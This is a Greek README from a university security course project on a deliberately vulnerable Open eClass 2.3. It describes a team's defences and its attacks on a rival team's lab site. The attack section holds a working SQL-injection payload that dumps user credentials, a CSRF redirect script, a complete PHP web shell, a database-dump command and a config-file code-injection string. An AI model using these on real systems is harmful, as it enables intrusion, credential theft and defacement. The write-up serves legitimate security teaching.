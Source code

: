 ##  Open eClass 2.3
Το repository αυτό περιέχει μια __παλιά και μη ασφαλή__ έκδοση του eclass.
Προορίζεται για χρήση στα πλαίσια του μαθήματος
[Προστασία & Ασφάλεια Υπολογιστικών Συστημάτων (ΥΣ13)](https://crypto.di.uoa.gr/csec/), __μην τη
χρησιμοποιήσετε για κάνενα άλλο σκοπό__.

##  2020 Project 1

Εκφώνηση: https://crypto.di.uoa.gr/csec/assets/projects/project1.pdf

###  Μέλη ομάδας
- 1115201300202, Κώστας Χατζόπουλος
- 1115201600141, Βασίλειος Πουλόπουλος
###  Report ομάδας: hackerz

## Άμυνα

### Cross Site Scripting
Tο **openeclass** δεν ήταν σχεδόν καθόλου προστατευμένο από επιθέσεις αυτού του τύπου.Χρησιμοποιήσαμε την βιβλιοθήκη **htmlpurifier** (Η **htmlpurifier** εντοπίζει τον κακόβουλο κώδικα και τον αφαιρεί.) για να προστατέψουμε τις εισόδους απο link που αποθηκεύονται στην server μεταβλητή **php_self** αλλά και για τις μεταβλητές που προέρχονται από είσοδο (**GET**/**POST**) και τυπώνεται το περιεχόμενό τους στον ιστότοπο. Τα δεδομένα που έρχονται από είσοδο του χρήστη και αποθηκεύονται στη βάση, πλέον δεν περιέχουν τον κακόβουλο κώδικα.

### Sql Injection
Το **openeclass** δεν είχε σε κανένα σημείο **prepared statements** αλλά σε κάποια queries γινόταν χρήση των συναρτήσεων **mysql_real_escape_string()**, **autoquote()**, **addslashes()** και **intval()** τα οποία δεν προστατεύουν πλήρως τον ιστότοπο ενώ σε κάποια άλλα δεν υπήρχε καθόλου προστασία. Χρησιμοποιήσαμε την συνάρτηση **intval()** όταν στο query υπήρχαν  μόνο ακέραιοι αριθμοί και όταν υπήρχαν και strings αντικαταστήσαμε τα αρχικά queries με **prepared statements**.



### Cross-Site Request Forgery

Στο openeclass δεν υπήρχε καμία προστασία για επιθέσεις αυτού του τύπου. Για να το διορθώσουμε βάλαμε σε κάθε ενέργεια που θα μπορούσε να γίνει κάτι σημαντικό (π.χ. διαγραφές, εισαγωγές, ενημερώσεις) ένα **random token** το οποίο ελέγχεται όταν γινει η ενέργεια μέσω της μεταβλητής **$_SESSION['form_token']** που σημαίνει ότι πριν τυπωθεί η συγκεκριμένη ενέργεια αποθηκεύεται το token. Αν το token είναι διαφορετικό η ενέργεια δεν γίνεται και ο χρήστης ανακατευθύνεται στην σελίδα που ήταν.  

### Remote File Injection

Για τις επιθέσεις RFI σε σημεία που μπορούσαν να ανέβουν αρχεία (**Ανταλλαγή Αρχείων**, **Εργασίες**) ο επιτηθέμενος μπορούσε να ανοίξει το φάκελο στον οποίο αποθηκεύονταν τα αρχεία. Με αυτόν τον τρόπο θα μπορούσε να ανεβάσει κάποιο malicious script και πατόντας πάνω στο αρχείο του να το τρέξει. Για να προστατευθεί το site όταν ανέβαιναν αρχεία το όνομα άλλαζε και γινόταν random. Αυτό δεν βοηθάει πολύ γιατί εφόσον ο επιτηθέμενος έχει πρόσβαση στο φάκελο μπορεί με διάφορους τρόπους να βρει το αρχείο του (π.χ. με το να μπει κατευθείαν αφού το ανεβάσει στο φάκελο και να πατήσει "last modified"). Για να αποτρέψουμε τις επιθέσεις RFI βάλαμε την εντολή **#Deny from All** σε **.htaccess** αρχεία σε αυτούς τους φακέλους που απαγορεύουν την πρόσβαση σε αυτούς μέσω του site.  Έτσι αφού δεν υπάρχει πρόσβαση στο φάκελο και τα ονόματα είναι random, ο επιτηθέμενος δεν έχει τρόπο να καταλάβει ποιό είναι το αρχείο του και να μπει σε αυτό ώστε να τρέξει. Επιπλέον, ακόμα και να μπορούσε να καταλάβει πως λέγεται το αρχείο του, δεν θα έτρεχε γιατί στο **.htaccess** εχουμε προσθέσει την εντολή **#php_flag engine off** οπότε τα .php αρχεία δεν μπορούν να τρέξουν.

## Επίθεση

### Cross Site Scripting
Οι αντίπαλοί μας είχαν προστατέψει αρκετά σημεία από xss αλλά βρήκαμε μερικά σημεία στα οποία μπορούσαμε να κάνουμε. Το ένα σημείο ήταν στις περιοχές συζητήσεων στο σώμα του μηνύματος αν πατηθεί η επιλογή για μετάβαση σε html. Επίσης στην αλλαγή στοιχείων παρατηρήσαμε πως αν βάλουμε κάποιο script σε κάποιο πεδιο (πχ στο όνομα), τότε σε μερικά σημεία του site που εμφανίζεται το όνομα, το script τρέχει(πχ όταν ο admin πάει να διαγράψει τον συγκεκριμένο χρήστη ή στη διαχείριση χρηστών). Αν ο χρήστης με το κακόβουλο script στο όνομά του συνδεθέι στο site, τότε το script τρέχει κάθε φορα που αλλάζει σελίδες, γιατι το όνομά του εμφανίζεται πάνω δεξιά στο site

### Sql Injection

Στο σημείo των συζητήσεων πήγαμε να κάνουμε "απάντηση" σε κάποιο θέμα και από το url επιχειρήσαμε να κάνουμε sql injection στη μεταβλητή topic, το οποίο καταφέραμε. Έτσι τρέχοντας το:
[http://web-sec-team.csec.chatzi.org/modules/phpbb/reply.php?topic=4 AND 1=2) UNION (select 1,2,3,GROUP_CONCAT(0x3c62723e, user_id, 0x3a, nom, 0x3a, prenom, 0x3a, username, 0x3a, password) from eclass.user) --  &forum=1](http://web-sec-team.csec.chatzi.org/modules/phpbb/reply.php?topic=4%20AND%201=2%29%20UNION%20%28select%201,2,3,GROUP_CONCAT%280x3c62723e,%20user_id,%200x3a,%20nom,%200x3a,%20prenom,%200x3a,%20username,%200x3a,%20password%29%20from%20eclass.user%29%20--%20%20&forum=1)
καταφέραμε να πάρουμε τα στοιχεία των 7 πρώτων χρηστών. Ο πρώτος, ήταν ο drunkadmin. 
Άλλο ένα σημείο που καταφέραμε να κάνουμε sql injection εκμεταλευόμενοι πάλι την παράμετρο topic ήταν το: 
[http://web-sec-team.csec.chatzi.org/modules/phpbb/viewtopic.php?topic=2&forum=2](http://web-sec-team.csec.chatzi.org/modules/phpbb/viewtopic.php?topic=2&forum=2)
### Cross-Site Request Forgery
Για να προστατευθεί η αντίπαλη ομάδα απο csrf παρατηρήσαμε πως χρηιμοποιούταν ένα token σε κάθε φόρμα που είχε σεταριστεί κατά το login. Παρόλα αυτά, στη σελίδα "Λίστα μαθημάτων/Ενέργειες" που βρίσκεται στη " Διαχείριση Πλατφόρμας" δεν τσεκάρεται το token ούτε στη διαγραφή μαθήματος ούτε στην επεξεργασία του, οπότε καταφέραμε να κάνουμε csrf. Επίσης μπορεί να γίνει csrf στην υποβολή βαθμού κάποιας εργασίας καθώς ούτε εκεί ελέγχεται το token. Επιπλέον δεν έχει μπει token και στην τηλεσυνεργασία οπότε αν έχουμε ένα site στο οποίο βάλουμε την εντολή

    <script>window.location.href = "http://web-sec-team.csec.chatzi.org/modules/conference/messageList.php?msg=&chatLine=test"</script>

και το πατήσει κάποιος χρήστης του eclass θα αναρτηθεί το μήνυμα "test" στην τηλεσυνεργασία απο το λογαριασμό του.
 
### Remote File Injection
Το αντίπαλο site δεν είχε ασφάλεια για RFI οπότε ανεβασαμε στην ανταλλαγή αρχείων διάφορα .php scripts και μάθαμε την ιεραρχεία των φακέλων. Στη συνέχεια αλλάξαμε το αρχείο **tool_content.css** και το **theme.html** και προσθέσαμε το **index.html** ωστε να αλλάξουμε την αρχική σελίδα. Αυτά τα αρχεία τα αλλάξαμε έχοντας φτιάξει τις version που θέλαμε, τις ανεβάσαμε στο puppies και μετά ανεβάζαμε scripts με wget και τις βάζαμε στο site. Μετά ανεβάσαμε το παρακάτω script:

    <?php
    $input = '';
    if (isset($_POST['input'])) {
	    $input = $_POST['input'];
	    ?>
	    <form  method="post"  action="<?PHP $_SERVER[PHP_SELF] ?>">
	    <textarea  name="input"  rows="4"  cols="50"  value="<?php $input ?>"></textarea>
	    <input  type="submit"  name="submit"/>
	    </form>
	    <?php
	    echo "<pre style='border: 1px solid black; padding: 3px'>$input</pre>";
	    $output = shell_exec($input);
	    echo "<pre style='border: 1px solid black; padding: 3px'>$output</pre>";
    } else {
	    ?>
	    <form  method="post"  action="<?PHP $_SERVER[PHP_SELF] ?>">
	    <textarea  name="input"  rows="4"  cols="50"  value="<?php $input ?>"></textarea>
	    <input  type="submit"  name="submit"/>
	    </form>
	    <?php
    }
    ?>

 το οποίο τρέχει shell commands κατευθείαν απ' το browser μέσω φόρμας και βρίσκεται στο παρακάτω url:
 [http://web-sec-team.csec.chatzi.org/courses/TMA105/dropbox/5ea8b087l4hg.php](http://web-sec-team.csec.chatzi.org/courses/TMA105/dropbox/5ea8b087l4hg.php)

Έτσι μπορούσαμε να κάνουμε πρακτικά οτιδήποτε στο site εύκολα και χωρίς να ανεβάζουμε πολλά scripts. Με τη βοήθεια του script αυτού τρέξαμε εντολές ώστε να κάνουμε compress ολο το site, το αποθηκεύσαμε στο φάκελο στον οποίο βρισκόμασταν (εκεί που είχαν ανέβει τα scripts) και κατεβάσαμε από εκεί τον κώδικα στους υπολογιστές μας. Τότε από το config.php μάθαμε τον κωδικό της βάσης και χρησιμοποιήσαμε στο script μας την εντολή `mysql -u root --password="*********" --database=eclass --execute="SELECT * FROM user;"` οπότε αυτός ήταν ένας τρόπος να μάθουμε τα στοιχεία των χρηστών.

### Γενικές Παρατηρήσεις

Ο κωδικός του ηταν **md5 hashed**  οπότε μέσω **RFI** αλλάξαμε το αρχείο `include/login.php` και στο σημείο που γίνεται η σύγκριση του hashed κωδικού από είσοδο του χρήστη με τον hashed κωδικό από την βάση βγάλαμε την μετατρόπή του κανονικού κωδικού σε md5 και ως είσοδο για τον κωδικό δώσαμε κατευθείαν τον hashed κωδικό από την φόρμα εισόδου. Με αυτόν τον τρόπο αποκτήσαμε πρόσβαση ως admin με αποτέλεσμα να υπάρχει η δυνατότητα να μάθουμε τον κωδικό μεσω του αρχείου ρυθμίσεων, ωστόσο δεν ήταν εφικτό να ανοίξουμε τη σελίδα ['Αρχείο ρυθμίσεων'](http://web-sec-team.csec.chatzi.org/modules/admin/eclassconf.php) καθώς η αντίπαλη ομάδα την είχε διαγράψει. Μέσα από το αρχέιο ρυθμίσεων θα μπορούσαμε να κάνουμε και από εκεί deface μεσω των πεδίων της φόρμας. Για να γίνει αυτό θα έπρεπε να τοποθετήσουμε ως εισοδο σε κάποιο από τα πεδία το κείμενο: `"; echo "test` το οποίο θα κάνει inject στο αρχείο ρυθμίσεων τον php κώδικα: `echo "test"`. Αντί για το echo θα μπορούσαμε να τρέξουμε οποιαδήποτε άλλη php εντολή καθώς και **shell commands** μέσω της **shell_exec** οπότε θα ήταν ένας εύκολος τρόπος να κάνουμε deface όπως ακριβώς κάναμε και με το **RFI**

![config_edit_form](https://github.com/chatziko-ys13/2020-project-1-hackerz/blob/master/screenshots/config_edit_form.png?raw=true)

![config_edit_code](https://raw.githubusercontent.com/chatziko-ys13/2020-project-1-hackerz/master/screenshots/config_edit_code.png?token=AMOC6IZSWDS3I44ZEDUGNF26W2VS6)

> Το συγκεκριμένο πρόβλημα στο αρχείο ρυθμίσεων, το αντιμετωπίσαμε κάνοντας χρήση regular expressions ώστε να μη δέχεται συγκεκριμένους χαρακτήρες.


